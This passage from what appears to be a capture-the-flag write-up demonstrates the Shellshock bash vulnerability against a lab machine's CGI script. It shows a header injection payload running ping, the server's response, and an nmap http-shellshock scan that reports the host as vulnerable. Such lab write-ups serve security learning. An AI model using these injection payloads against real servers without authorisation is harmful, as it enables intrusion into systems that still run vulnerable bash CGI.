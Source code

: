 The results come back in the response:

```

HTTP/1.1 200 OK
Date: Mon, 17 May 2021 11:57:37 GMT
Server: Apache/2.4.18 (Ubuntu)
Connection: close
Content-Type: text/x-sh
Content-Length: 261

PING 10.10.14.15 (10.10.14.15) 56(84) bytes of data.
64 bytes from 10.10.14.15: icmp_seq=1 ttl=63 time=18.9 ms
--- 10.10.14.15 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 18.955/18.955/18.955/0.000 ms

```

If I remove the `echo;`, and send `User-Agent: () { :;}; /bin/ping -c 1 10.10.14.15`, `tcpdump` still sees the ICMP packet, but the response from the server is a 500. I think that without the newline, it puts the output in the HTTP headers, which is non-compliant stuff in the headers, leading to a crash. That said, I wasn’t able to get things like `python3 -c 'print()'` to create the newline and return results (though it prevents the 500). I didn’t have a good explanation as to why, but also couldn’t let it go, so more in [Beyond Root](#shellshock-chained-commands).

#### nmap

`nmap` has a [script](https://nmap.org/nsedoc/scripts/http-shellshock.html) to test for ShellShock. I’ll need to give it the URI for the script to check:

```

oxdf@parrot$ nmap -sV -p 80 --script http-shellshock --script-args uri=/cgi-bin/user.sh 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 07:17 EDT
Nmap scan report for 10.10.10.56
Host is up (0.019s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-shellshock: 
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known
|       as Shellshock. It seems the server is executing commands injected
|       via malicious HTTP headers.
|             
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       http://seclists.org/oss-sec/2014/q3/685
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.66 seconds

```
